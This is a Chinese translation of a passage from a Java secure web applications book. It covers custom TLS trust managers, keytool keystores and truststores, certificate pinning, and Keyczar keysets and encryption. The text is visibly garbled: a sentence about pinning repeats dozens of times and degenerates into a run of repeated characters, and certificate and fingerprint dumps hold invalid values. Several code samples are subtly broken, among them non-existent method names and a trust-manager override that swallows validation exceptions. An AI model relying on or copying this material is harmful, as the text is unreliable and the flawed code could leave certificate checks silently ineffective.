上述代码中的 socket 现在将使用 HTTPS 连接中的主机名验证规则来验证服务器的主机名。

让我们快速查看一下前面提到的检查证书过期日期的细微之处。正如你所预期的，如果证书是证书链的一部分，证书将在建立连接和传输数据之前抛出异常。然而，如果客户端显式信任服务器，即使证书已过期，socket 也会连接并加密流量。在这种情况下，“显式”意味着服务器的有效性已添加到客户端的信任库中，且没有使用证书链验证证书的有效性。在这种情况下，你需要使用 `X509Certificate` 类的 `checkValidity()` 方法自行检查证书的过期日期。我们将在下一节关于信任器的部分展示该示例。但需要说明的是，这是一个边缘情况，当你依赖通过 CA 签名进行验证时，是不需要的。

## 信任管理器

实现所述检查的自然位置是在握手期间，即 TLS 协议中建立连接和建立信任的部分。JSSE 使用信任管理器来确定代码是否应该信任连接的对方。

> 6 然而，更好的方法是为你的开发环境创建自定义密钥库（Keystore）。密钥库将在稍后的“证书和密钥管理”部分介绍。

> 7 信任库（Truststore）在 Java 中存储公钥证书，将在章节稍后部分进行详细讨论。

# 148 坚固 Java：构建安全的 Web 应用

添加自定义验证检查，你通过子类现有的管理器来创建自己的信任管理器：

```java
public class CustomTrustManager extends X509ExtendedTrustManager {
  /*
   ** ...这里的类代码...
   */
}
```

不幸的是，使用自定义信任管理器需要你显式构建 socket 工厂，而不是像之前那样使用默认值。Oracle 提供的 JSSE 文档涵盖了如何使用 `SSLContext` 和自定义管理器来获取 socket 工厂，我们在“证书和密钥管理”部分涵盖了它。在本节中，我们关注你可能想在信任管理器内部实现的逻辑。

假设你的代码通过 TLS socket 直接连接到服务器。在这种情况下，你希望重写 `X509ExtendedTrustManager` 中的 `checkTrusted()` 方法，该方法接受 `Socket` 作为参数。

该代码使用默认信任管理器检查链的有效性。以下是显式检查日期的代码：

```java
X509ExtendedTrustManager defaultTM;
/*
  ...设置 defaultTM 的代码...
  */
public void checkTrusted(X509Certificate[] chain, String authType, Socket socket) throws CertificateException {
  try {
    defaultTM.checkTrusted(chain, authType, socket);

    for (int i = 0; i < chain.length; i++) {
      java.security.cert.X509Certificate cert = (java.security.cert.X509Certificate)chain[i];

      cert.checkValidity();
    }
  } catch (CertificateException e) {
    // 处理并抛出异常。
  }
}
```

# 第 6 章：保护敏感数据 149

`X509Certificate` 类包含许多检查各种属性的方法。任何方法都可以作为验证算法的一部分。

在创建包含自定义逻辑的信任管理器之前，花时间理解相关的 RFC 规范。你希望确保代码检查正确的属性以正确的值。例如，许多实现首先检查主题以确定主机名，但如果没有备用名称，该字段应作为备选。

# 证书和密钥管理

正如我们之前说的，证书和密钥是 TLS 的骨干。因此，仔细安全地管理它们至关重要。如果你的代码运行在 Web 服务器或 Web 客户端之后，你可能不需要担心证书和密钥。系统管理员需要管理它们，但也能帮助你理解他们需要管理什么，在某些情况下，特别是在开发机器上，你可能就是系统管理员。

Java 提供了三个在证书和密钥管理中重要的组件：密钥库（Keystore）、信任库（Truststore）和 keytool。密钥库存储作为凭据的私钥和证书。例如，TLS 服务器将密钥库中的信息发送给客户端，以便客户端可以验证服务器。密钥库必须保持安全并严格控制访问。

信任库存储应用程序用于确定信任的公共证书。信任库用于用于验证来自密钥库的凭据。例如，当 TLS 服务器提供证书链时，客户端将查找该链最终是否由客户端信任库中的证书签名。如果是，则客户端将接受该链。信任库可以是公开的，因为它只包含公钥。

`keytool` 是一个命令行程序，允许你处理密钥库和信任库。在大多数情况下，你会使用 `keytool` 配置服务器上的密钥库和客户端上的信任库——尽管有时

# 150 铁甲 Java：构建安全的 Web 

你可能希望在两个端点都拥有这两个项。你也可以使用 `keytool` 来生成和管理证书。

需要注意的一个复杂情况是，从 `keytool` 的角度来看，密钥库（keystore）和信任库（truststore）都是密钥库文件。它们只是包含不同类型的密钥。信任库是一个包含公钥证书的密钥库。如果这种区分很重要，当我们谈论的是实际的文件类型而不是文件所代表的存储库类型时，我们会清楚地说明这一点。

让我们开始使用 `keytool` 在密钥库和信任库中创建相应的密钥。你创建一个密钥对（同时包含公钥和私钥）。

```
$ keytool -genkeypair -alias iron -keyalg -validity 7 \
-keystore ic-keystore
Enter keystore password: password
Re-enter new password: password
What is your first and last name?
[Unknown]: localhost
What is the name of your organization unit?
[Unknown]: Kevin Kenan
What is the name of your organization?
[Unknown]: Iron Clad Java
What is the name of your City or Locality?
[Unknown]: Eugene
What is the name of your State or Province?
[Unknown]: OR
What is the two-letter country code for this unit?
[Unknown]: US
Is CN=localhost, OU=Kevin Kenan, O=Iron Clad Java, L=Eugene,
ST=OR, C=US correct?
[no]: yes
Enter key password for <iron>
(RETURN if same as keystore password): <CR>
```

这创建了一个名为 `ic-keystore` 的密钥库，包含一个有效期为七天的证书。我们使用 `localhost` 作为通用名。我们可以列出它的内容。

```
$ keytool -list -v -keystore ic-keystore
Enter keystore password: password
```

Keystore type: JKS

Keystore provider: SUN

# 第 6 章：保护敏感数据 151

你的密钥库包含 1 条条目

Alias name: iron

Creation date: Mar 16, 2014

Entry type: PrivateKeyEntry

Certificate chain length: 1

Certificate[1]:

Owner: CN=localhost, OU=Kevin Kenan, O=Iron Clad Java, L=Eugene,

ST=OR, C=US

Issuer: CN=localhost, OU=Kevin Kenan, O=Iron Clad Java, L=Eugene,

ST=OR, C=US

Serial number: 58313f6a

Valid from: Sun Mar 16 18:12:15 PDT 2014 until: Sun Mar 23 18:12:15 PDT 2014

Certificate fingerprints:

MDS: 35:8A:C7:B9:E18:D5:B7:F4:91:30:E7:D2:45:6A

SHA1: E5:E7:43:86:D7:A6:8D:30:96:C5:BB:99:3C:E5:CC:8P:6

SHA256: E0:D9:79:FB:D6:65:31:BF:E7:F9:51:40:CE:6E:CE:D4:C31:FF:37:A2:CF:4F:AE:2B:13:82:78:46

Signature algorithm: SHA256withRSA

Version: 3

Extensions:

...（从输出中删除了几行非必要内容）...

现在，你想从密钥库中提取证书，以便将其直接添加到信任库中。

```
$ keytool -exportcert -alias iron -keystore ic-keystore -rfc \
-file iron.cer
Enter keystore password: password
Certificate stored in file <iron.cer>
$ cat iron.cer
---BEGIN CERTIFICATE---
```


MIDeCCam0AwAgIEWB/jANBgqhkI9W0BAsQFADBuMqwscQYDVQQGEWJVJZELKMAGAUIUCMBT1XIdjANBgqNHVNBARTKC11LV2Z2UTXEMBUGA1AECHMOSYJvb1bDBGFkEpEdmmx2EIAjNBVASTCN0X0ZCBYXOB2GBIGUBAE10CHYJvb1bDB2S4WhCNMTW2MDE1IwChNMTW2MD1IwumqwscYDVQQGEWJVJZ1XIdjANBgqNHVNBARTKC11LV2Z2UTXEMBUGA1AECHMOSYJvb1bDBGFGFkEdEdmmx2IAIANBVAVACNCN0ZCBYXOB2GBIGUBAE10CHYJvb1bDB2S4WggEIMA0cQGS13DQEBA4DBwAggEKA0ccgY26005q25g1nJ9199Mt2Ytr8dWCjcc440ehfaWITJ58E0Xcgue9rOC61ceQ48DDQzut58bjjcCRzu/04jds10mgr2ZZ31D06h+M29RgXum/06bu2cr/jg52boq7XnHgIZAU+AK

152 铁甲 Java：安全的 Web 应用程序

sJC/fof46EBhD0cd5P+enPhJQyneCdIIoutmtq4xq7Uv5pUAIMXdkyJNvWhCU7xxcrfZAHSuLnC1hSqD1MAAGJITmBRJ0GB31JaspXfCM36wc1lgDANBgqqi0WBAFAQALECDHC0G25XSubqTRMS0bFvimnCtWlsDWBP52VCWH0qp9P+0CPCKryWweF75ubq2P75CHYcXcadMECAJnhgCU0wS7YmLXj0uc1GT29ivq44PzedudFV0ba7DhlJ7RGANLeXU+hADNJbvaXi+8SXJnMMVN--- END CERTIFICATE ---

看起来不错。将其导入到名为`ic-truststore`的信任库中。

```
$ keytool -alias iron -file iron.cer \
-keystore ic-truststore
Enter keystore password: password
Re-enter new password: password
Owner: CN=localhost, OU=Kevin Kenan, O=Iron Clad Java, L=Eugene,
ST=OR, C=US
Issuer: CN=localhost, OU=Kevin Kenan, O=Iron Clad Java, L=Eugene,
ST=OR, C=US
Serial number: 58133f6a
Valid from: Mar 16 18:12:15 PDT 2014 until: Mar 23 18:12:15 PDT 2014
Certificate fingerprints:
MD5: 35BA8C:C7B9:18:ED:15:B7:F4:91:30:41:E7:D2:45:6A:6B
SHA1: E6:7E:43:86:D7:AD:60:D3:90:5C:9B:E9:99:3C:5B:78:CCBF:66
SHA256: E0:D9:79:FB:FD:6C:65:31:BE:E7:F9:51:40:CE:6E:CE:D4:C11:FF:37:A2:CF:4F:A8:A6:CE:2B:13:82:78:46:11
256withRSA
Version: 3

Extensions:
...（从输出中删除了几行非必要内容）...

信任此证书？[no]: yes
证书已添加到密钥库
```

此时，`ic truststore`包含了与`ic keystore`中的私钥匹配的证书。你应该配置服务器使用`ic keystore`作为其密钥库，而客户端应该使用`ic-truststore`作为其密钥库。当服务器将`ic-keystore`中的证书发送给客户端时，客户端可以使用`ic-truststore`中的公钥对其进行验证。

你可以通过编程或使用系统属性将这些密钥库文件加载到 JSSE 程序中。Java 允许从命令行或代码中设置这些属性。命令行参数是直观的：

你可以在代码中动态设置这些属性：

```java
System.setProperty("javax.net.ssl.keyStore", "ic-keystore");
System.setProperty("javax.net.ssl.trustStore", "ic-truststore");
```

另一种，你可以通过编程方式加载密钥库：

```java
KeyStore ks = KeyStore.getInstance("JKS");
ks.load(new FileInputStream("ic-keystore"), "password".toCharArray());
KeyManagerFactory kmf = KeyManagerFactory.getInstance("SunX509");
kmf.init(ks, "password".toCharArray());
SSLContext sctx = SSLContext.getInstance("TLS");
sctx.init(kmf.getKeyManagers(), null, null);
SSLFactory ssf = sctx.getServerSocketFactory();
ServerSocket socket = ssf.createServerServerSocket(port);
```

154 铁甲 Java：安全的 Web 应用程序

前面的代码创建了一个 SSL socket，相同的方法也客户端 socket。然而，在客户端的情况下，你通常不需要密钥库。

```java
KeyStore tks = KeyStore.getInstance("JKS");
tks.load(new FileInputStream("ic-truststore"), "password".toCharArray());
TrustManagerFactory tmf = TrustManagerFactory.getInstance("PKIX");
tmf.init(tks);
SSLContext cctx = SSLContext.getInstance("TLS");
cctx.init(null, tmf.getTrustManagers(), null);
SocketFactory sf = cctx.getSocketFactory();
Socket socket = sf.createSocket(port);
```

这段代码将信任库加载到客户端，以便它可以验证服务器的证书。记住，这种方法之所以起作用，是因为你可以方便地访问信任库和客户端。遗憾的是，大多数情况下并非如此：你无法访问所有连接到你服务器的客户端。这就是证书颁发机构（CA）发挥作用的地方。

当你从密钥库中提取证书时，你本可以准备证书签名请求（CSR）。CSR 是你发送给证书颁发机构的内容。它包含了证书和服务器的公钥。你可以使用`keytool`生成 CSR：

```
$ keytool -certreq -alias iron -keystore ic-keystore \
-file iron-csr.cer
Enter keystore password: password
```

## 第 6 章：保护敏感数据 155

当 Java 进行检查时。你可以检查`$JAVA_HOME/lib/security`下的默认`cacerts`文件，查看是否已经存在受信任的证书。

```bash
$ keytool -list -keystore $JAVA_HOME/lib/security/cacerts
Enter keystore password: changeit
```

如果它在其中，你就可以直接导入签名的证书：

```bash
$ keytool -importcert -alias iron -keystore ic-keystore \
-file iron-signed.pem
Enter keystore password: password
Certificate reply was installed in keystore
```

请确保使用与生成证书时相同的别名（`alias`），这样`keytool`才会知道你正在安装一个 CSR（证书签名请求）的回复。

如果该证书不在`cacerts`文件中，那么在添加签名的证书之前，你可以先将 CA 证书添加到`ic-keystore`中。

```bash
$ keytool -importcert -alias myCA -file cacert.pem \
-keystore ic-keystore
Enter keystore password: password
```

信任此证书吗？[no]: yes
证书已添加到 keystore 中

现在你可以导入签名的证书了。

```bash
$ keytool -importcert -alias iron -keystore ic-keystore \
-file iron-signed.pem
Enter keystore password: password
Certificate reply was installed in keystore
```

再次，请确保使用与生成证书时相同的别名——在本例中为`iron`——这样`keytool`才会知道你正在安装一个 CSR 的回复。

我们希望你选择了一个你的客户端已经信任的 CA——也就是说，该 CA 的根公钥证书已预装在你目标针对的客户端或浏览器中。然而，在某些情况下（也许为了测试），CA 并没有被预装。你必须自己确保客户端信任你的 CA。如果客户端是 Java 应用程序，你可以像之前讨论的那样，将 CA 证书添加到信任存储库（`truststore`）中。

如果 CA 的根公钥证书文件名为`cacert.pem`，你可以将其导入自己的信任存储库中。

```bash
$ keytool -importcert -alias myCA -file cacert.pem \
-keystore ic-truststore
keystore password: password
```

随后你就可以像我们之前演示的那样，将`ic-truststore`加载到你的应用程序中。

## 证书钉钉（Certificate Pinning）

为了让公钥基础设施系统能够正常工作，你必须信任证书机构本身。遗憾的是，某些 CA 内部的安全和管理问题侵蚀了这种信任。系统底层的密码学仍然有效；令人怀疑的是这些组织。

处理此问题的一种方法是完全避免使用 CA。我们在上一节“证书与密钥管理”中为此奠定了基础。如果你同时拥有服务器和客户端的访问权限，就可以生成、签名并分发你自己的证书。如果你将应用程序限制在你定义的信任存储库中，并且只向该密钥存储库中添加你生成并信任的证书，那么你就可以避免信任第三方 CA 的问题。

处理此问题的另一种方法是使用证书钉钉（certificate pinning）。证书钉钉机制允许应用程序仅信任特定的证书或由特定证书签名的证书。例如，你的应用程序可能会连接到许多不同的服务器，因此在信任存储库中需要各种证书来保护这些连接。其中某些证书可能来自 CA，另一些可能是自生成的。

然而，仅仅因为你的应用程序信任某个 CA 来保护与第三方 Web API 的连接，并不意味着你应该使用同一个 CA 来保护你应用程序中处理支付部分的连接。换句话说，你的应用程序可能对不同的连接有不同的安全级别。通过将证书“钉住”到某个网站，你要求使用特定的证书来保护与该网站的连接。

> 8 例如，可以使用 OpenSSL 签名证书。请参见 www.flatmtn.com/article/setting-openssl-create-certificates。

## 第 6 章：保护敏感数据 157

证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉的实现通常使用证书的哈希值。证书钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉钉

## 第 6 章：保护敏感数据 177

158

### Web应用程序

```java
public void verifyPin(String pin, X509Certificate cert) throws CertificateException {
    try {
        byte[] key = ((X509Certificate)cert).publicKey().getEncoded();
        MessageDigest md = MessageDigest.getInstance("SHA1");
        byte[] keyHash = md.digest(key);
        String hash = DatatypeConverter.printHexBinary(keyHash);
        if (hash.equals(pin)) { // 简化逻辑
            System.out.println("匹配");
        } else {
            System.out.println("哈希不匹配: " + hash);
            throw new CertificateException("钉不匹配");
        }
    } catch (java.security.NoSuchAlgorithmException e) {
        System.out.println("异常: " + e);
    } catch (CertificateException ce) {
        throw ce;
    }
}
```


## 第 6 章：保护敏感数据 159

### 静态数据

我们现在转向保护之前讨论的数据。记住，你的静态数据安全机制是可逆的。也就是说，在存储数据时你需要对数据进行封装，并且以后需要使用数据时能够反向解封装。加密是这项工作的选择工具。

不幸的是，我们没有像 TLS 那种广泛接受的标准来定义如何使用特定算法加密静态数据，因此开发者必须自己实现。然而，一个安全的加密系统是非常复杂的，充满了许多如果选错可能会导致致命选项。SSL/TLS 的历史就是一个很好的例子：许多深谙密码学的人设计了这些协议，但仍然经历了多次协议升级。

好在，一些供应商和开源项目开始实现更简单且不易出错的系统。在本节中，我们关注 `Keyczar`，它最初由安全团队开发，现在是托管在 Google 的开源项目。当然，我们在书中涵盖了 `Keyczar` 的实现，但也有其他实现。Python 和 C++ 版本都可以从 `Keyczar` 主页获取。

`Keyczar` 是一个允许你轻松加密和签名数据的工具包，更重要的是，它提供了基本的密钥管理功能。加密和签名服务主要通过一组易于使用的 API 访问。密钥管理功能通过一个名为 `KeyczarTool` 的命令行程序提供。所有这一切都是构建在 Java 原生密码学架构之上的。

# 160 铁甲 Java：构建安全的 Web 应用

我们要理解，任何加密解决方案的安全性完全取决于保持某些密钥的秘密。

为了提供一个难以被误用的简单 API 和密钥管理实用程序，`Keyczar` 牺牲了一些灵活性。例如，它仅提供极少数算法，仅实现了少数特定的模式和填充组合，并且输出格式是预定义的。这些限制看起来可能过于严格，但它们与你在 TLS 中发现的限制并无二致。虽然 TLS 是一个良好的通用安全通信协议，但它对于每种用例都不是最优的。我们牺牲灵活性是为了依赖一个稳健、经过测试的系统。`Keyczar` 的目标是实现类似的权衡：提供一组经过测试且在大多数情况下都能完成任务的有限工具。

在介绍使用 `Keyczar` 的具体细节之前，我们首先将回顾加密和签名之间的区别——这是 `Keyczar` 支持的两个基础加密功能。虽然上一节讨论的公钥基础设施和证书管理概念严重依赖签名，但我们略过了其细节。现在是时候深入研究这些细节了。

## 加密与签名

数字签名应用于数据，用以验证数据的来源。发送者发送数据，接收者验证签名。如果签名通过验证，那么接收者就可以确信发送者确实发送了数据。有效的签名还告诉接收者一个重要信息：没有人数据数据离开发送者后对其进行过修改。然而，如果有人更改了数据（即使非常微小），签名也会通过验证失败。

需要记住的一点是，对数据进行签名并不意味着数据变得秘密——其他人仍然可以读取带签名的数据。签名允许接收者验证你确实发送了该数据。另一方面，加密用于防止他人读取数据。加密使数据成为秘密。如果你遇到加密数据，你将不知道数据实际上是什么。如果你遇到带签名的数据，你可能知道数据是什么，但你绝对可以确定是谁发送的。

适用于加密的加密算法并不一定适用于签名，而适用于签名的算法也不一定适用于加密。不同的安全目标导致了不同类型的算法。正如你很快看到的，`Keyczar` 包含一个专门用于加密的算法、几个用于签名的算法，以及一个可以用于两者的算法。这些算法分为两类：对称和非对称。

## 对称与非对称加密

对称加密是我们最常听到的加密类型。它被用于加密而非签名。使用一个密钥来“扰乱”信息，在没有该密钥的情况下，这种扰乱几乎是不可能的。这种加密类型被称为对称加密，因为加密和解密数据使用同一个密钥。为了保持系统安全，该密钥必须保持秘密。这种机密性要求使得对称加密也被称为密钥加密。

非对称加密，也称为公钥加密，对于签名至关重要。公钥加密使用两个不同的密钥。其中一个是私钥，保持秘密且仅发送者已知。它用于对数据进行签名。另一个密钥可以是公开的，任何人都可以知道——因此得了公钥加密的名称。这个公钥用于验证签名。无法从公钥中推导出私钥——至少在数学和计算能力上尚无法做到。

在某些非对称算法中，公钥也可以用于加密。用公钥加密的数据只能用私钥解密。这些算法可以同时用于加密和签名。并不是每个非对称算法都具有这一属性。许多算法允许你验证数据的签名，但没有提供任何实际上恢复被签名数据的方法的方法。

现在我们已经涵盖了 `Keyczar` 支持的不同类型加密的基础知识，让我们来看系统本身。请注意，我们使用的是 09.71g 版本（发布版本 09.6.13）。

## 密钥集 (Keysets)

`Keyczar` 的密钥管理方法基于密钥集（keysets）的概念。密钥集是针对特定算法和目的的一组密钥，作为一个整体进行管理。你的应用程序可能会使用多个密钥集：一个用于将信用卡信息写入数据库，另一个用于向客户端发送加密参数，还有一个一个用于对跨网络访问安全 API 的请求进行签名。

密钥集使用 `KeyczarTool` 进行创建和管理。创建一个新的密钥集非常简单。首先，你创建一个包含该密钥集的目录，然后使用 `KeyczarTool` 创建它。

```
$ mkdir /keyczar/keys/demo

$ KeyczarTool create --location=/keyczar/keys/demo \
  --purpose=crypt --name=Demo
```

`create` 命令告诉 `KeyczarTool` 你想创建一个密钥集，`--location` 标志指向包含它的目录。`--purpose` 标志标识密钥集的用途，是加密和解密（`crypt`）还是签名或验证（`sign`），而 `--name` 只是一个帮助你记住密钥集用途的标签。它在其他地方不被使用，并且是可选的。

一个目录只能包含一个密钥集，起初在运行 `create` 命令后，该目录将包含一个 `meta` 文件，其中包含关于密钥集的元数据。`Keyczar` 的优点之一是密钥集由明文文件组成，可以在任何文本编辑器中打开并检查。你之前创建的密钥集的 `meta` 文件看起来如下：

```
{
  "name": "Demo",
  "purpose": "DECRYPT_ENCRYPT",
  "type": "AES",
  "versions": [],
  "encrypted": false
}
```

一眼看去，你可以看到该密钥可以使用 AES 算法（一种对称算法）进行解密和加密。你也可以看到这是一个新的密钥集，因为 `versions` 是空的。稍后我们将向密钥集添加密钥。最后，`encrypted` 设置为 `false`，这意味着该密钥集未加密。

当你创建密钥集时，必须指定 `location` 和 `purpose` 标志。`purpose` 必须是 `crypt` 或 `sign`。你可以可选地指定非对称标志，但如果用途是 `crypt`，则值必须是 `rsa` 或 `dsa`。这些标志的组合决定了密钥集将使用的算法。一旦设置了用途，就会。

例如，此命令（注意没有指定非对称标志）创建了一个 HMAC 密钥集：

```
$ KeyczarTool create --location=/keyzar/keys/hmac \
--purpose=sign
```

带有非对称标志的命令创建了一个 DSA 密钥集：

```
$ KeyczarTool create --location=/keyzar/keys/rsa \
--purpose=sign --asymmetric=dsa
```

## Keyzar 中的密钥管理

一旦你创建一个空的密钥集，就需要向其中填充密钥。密钥集可以且通常会包含多个密钥。然而，在任何给定时刻，密钥集中仅有一个密钥可以用于加密或签名，取决于密钥集的用途。其余密钥仅用于解密或验证签名。这种组织结构使得管理密钥更容易。

`Keyzar` 为每个密钥分配一个状态。允许的值有 `primary`（主）、`active`（活跃）和 `inactive`（非活跃）。通常，密钥的生命周期从 `primary` 密钥开始，一段时间后移动到 `active`，然后更晚移动到。

## 164 Iron-Java：构建安全的 Web 应用

主密钥（Primary keys）用于加密、签名以及解密和验证。它们通常是最新的密钥，并处理所有新的加密和签名请求。一个密钥集（keyset）只能有一个主密钥。

活跃密钥（Active keys）通常是较旧的密钥，已经过了它们的高光时刻。它们仅用于解密数据和验证签名。非活跃密钥（Inactive keys）与活跃密钥相似，仅用于解密和验证，但非活跃密钥正处于撤销阶段。也就是说，非活跃密钥的下一步是在不再需要时完全从密钥集中删除。密钥集内部可以存在许多个活跃和非活跃的密钥。

密钥集中的每个密钥都通过版本号标识。版本号在密钥集元文件（meta file）的 version 字段中跟踪，而密钥材料本身存储在密钥集目录中以版本号命名的明文文件中。如果一个密钥被标记为版本 1，那么它就存储在一个名为 `1` 的文件中。

```
$ KeyczarTool addkey --location=/keyczar/keys/demo
```

此命令向之前创建的 demo 密钥集添加了一个活跃密钥版本。如果你查看该目录，你会看到一个名为 `1` 的新密钥。

```
$ 1 /keyczar/keys/demo
meta
```

元文件已更新了关于新密钥的信息：

```
{
  "name": "Demo",
  "purpose": "DECRYPT_AND_ENCRYPT",
  "type": "AES",
  "versions": [
{
    "exportable": false,
    "status": "ACTIVE",
    "versionNumber": 1
  }
  ],
  "encrypted": false
}
```

如你所见，`versions` 属性包含了一个新元素：

```
{
  "exportable": false,
  "status": "ACTIVE",
  "versionNumber": 1
}
```

## 第 6 章：保护敏感数据 165

该元素告诉你此密钥不可导出——也就是说 `KeyczarTool` 不会从密钥集中复制它——状态为活跃，版本号为 1。你也可以用文本编辑器打开实际的密钥文件 `1`。

```
{
  "aesKeyString": "7k5DvhY04cS-H-dWcx4xg",
  "hmacKey":
    "hmacKeyString":
      "fjjteKxSz6aUjLnJCoGVYWoqo4KPLV3Pdqruazuo",
    "size": "256"
  },
  "mode": "CBC",
  "size": "128"
}
```

第一个值是实际的 AES 密钥。第二个值是 HMAC 签名密钥，我们将在“加密与解密”章节中详细讨论。最后两个值显示该密钥是 CBC——密码块链，密钥大小为 128 位。目前 `Keyczar` 仅支持 CBC，但 AES 的密钥大小可以变化。支持 192 位和 256 位密钥，以及默认的 128 位。

与 `addkey` 命令中最常用的两个标志是 `size` 和 `status`。`size` 会改变密钥的大小。例如，包含 `--size=256` 将创建一个 256 位的密钥。`status` 指定新密钥的状态。默认状态为活跃（active），这会将密钥的使用限制为仅解密。

如果你想让新密钥用于加密和解密，则需要将状态设置为 `primary`（主）。要创建一个主密钥，你可以在命令行上包含 `--status=primary`。新密钥将成为密钥集中的主密钥，如果之前存在主密钥，它将自动从主状态变为活跃状态。

在 demo 用例中，当你创建一个状态为活跃的第一个密钥时，你无法使用新密钥集加密任何数据。你需要将新密钥改为主密钥。`KeyczarTool` 为此目的提供了 `promote` 命令。当你提升（promote）一个非活跃密钥时，它会变为活跃。`KeyczarTool` 还有一个 `demote` 命令，可以将主密钥变为活跃密钥，将活跃密钥变为非活跃密钥。这两个命令都需要要提升或降级的密钥版本号以及密钥集的位置。（注：原文后续部分内容存在大量重复，翻译已根据逻辑进行去重处理）。

# 168 铁甲 Java：构建安全的 Web 应用

AES 密钥。你的密文也会变长。这里有一个使用 AES 加密“Hi there”（使用 128 位密钥）的示例：

```
ABnLCcL-Apnf5lN_Q8sGHnoldc34Lte-Mk3YmOhQ7W5sUKkRSAGgc
-XYi5m07cz20UT3IKY5CBYB
```

由于由于正在处理的是字符串，这里的输出是 Base64 编码。这里有一个使用 RSA 加密“Hi”（使用 4096 位密钥）的示例：

```
ANWMY-9IW73buVU9Qc2cwSh1fPtQbsI1mCDIDEOasvy2WjQHRxoLo
QvS1QW5K-tMOPTEKR24K20BYJH47TT1IKkikqqo-wpm-S2rdSS
Y6AW9NI5INH4uf3JRK44e5B5BUHY72djydjWH2dw1T7_ZY
E2y6HS2GUtLWhTh7B3DICCP71H2SRGMKIlXwpC300Yru41lt9j3q
zDC140T81KL6yc7chaetml-u2YVlrgZ139ayXxc_8BaaOitvoj
a5bpoX5GHIHnLLJMb8Wlu-uYZPMWDU51Ig1wrg-kjvPz37m14kAR
ey2z7c2FpnFwL1XSdoMeJbJDSUNOUW6GnnFR82FN1SwGNOrAHIhyfIAkq
0DUFI5KSxMbpPalcAGB_775Y4L75XRKYB6MjYj2rBLpDW2Fo-TG
E15I29PWUB2ME-aTIbWI_0mg_qlts70Fe8e8S5bcscCYVobPCoFTJROvVP55P
9YgbclC47sDM89h288kjT-YtAghnNE5B5scCYVobPCoFTJROvVP55P
I_8WE_EdqkQIQxcxgTMpFfY1W7C1bKBovj3St06SH6Vmn1J8ESRCXTnDHNI2ZllW4GU27P9nk37uyaKanRFTQ8IAD
PIUd9hCN3UE_2pa509gOHlyJSHnKr76D
```

计算时间的差异是非常重要的，请确保在实现系统时考虑了这些必要的资源。

你可以使用 `Keyczar` 和 RSA 实现加密消息交换。你需要从之前创建的 RSA 密钥集中提取公钥，但为了做到这一点，你需要一个新的密钥集来存储密钥。

```
$ mkdir /keyczar/keys/pubkeys

$ KeyczarTool create --location=/keyczar/keys/pubkeys \
--purpose=crypt --asymmetric=rsa
```

现在将公钥从 RSA 密钥集中导出到新的密钥集：

```
$ KeyczarTool pubkey --location=/keyczar/keys/rsa \
--destination=/keyczar/keys/pubkeys
```

# 第 6 章：保护数据 169

公钥在 pubkeys 密钥集中。如果你查看元文件，你会注意到一个重要的区别：

```
{
  "name": "",
  "purpose": "ENCRYPT",
  "type": "RSA_PUB",
  "versions":[
    {"exportable":false,"status":"PRIMARY","versionNumber":1},
    "encrypted":false
  ]
}
```

注意该密钥集的目的是 `ENCRYPT`，而不是你之前看到的 `DECRYPT_ENCRYPT`。这些公钥只能用于加密数据。解密数据需要私钥。由于这种差异，你之前实现的加密和解密数据将会失败。`Crypter` 类必须接收一个目的是 `DECRYPT_ENCRYPT` 的密钥集。如果传递了 pubkeys 密钥集，`Crypter` 将抛出异常。

`Keyczar` 有另一个类 `Encry` 来处理这种情况。`Encry` 只加密数据，它不能解密。使用 `Encry` 比使用 `Crypter` 更复杂：

```java
String path = "/keyczar/keys/pubkeys";
Encrypter encrypter = new Encrypter(path);
String ciphertext = encrypter.encrypt("data");
```

`Encry` 也支持字节数组和缓冲区。你可以将 pubkeys 密钥集交给你的朋友——毕竟它是公钥——你的朋友可以使用 `Encry` 代码来加密消息。当你收到该消息时，使用之前实现的代码来解密消息。

```java
String path = "/keyczar/keys/rsa";
Crypter crypter = new Crypter(path);
String plaintext = crypter.decrypt(ciphertext);
```


`path` 指向 RSA 密钥集，因为密钥集包含了解密所需的私钥，而 `Crypter` 类支持解密。

## 170 铁甲 Java：构建安全的 Web 应用

这只是一个用于演示 Keyczar 特性的原始系统。加密只能保持消息保密。使用它无法提供朋友确实发送了消息的有力保证。任何拥有公钥的人都可以发送它。这种我们之前讨论过的是 TLS 设计用来的，当你需要安全通道时应该使用 TLS。在实现加密时请记住这一点。即使是像 Keyczar 这样优秀的工具，也可能以让你处于脆弱状态的方式使用。

在开发周期中，花时间考虑章节开头提到的威胁：

- 数据能被未授权的人读取吗？
- 你能发现数据是否被篡改吗？
- 你能验证是谁发送了数据吗？
- 如果有人复制并发送数据，你会知道吗？

## 签名与验证

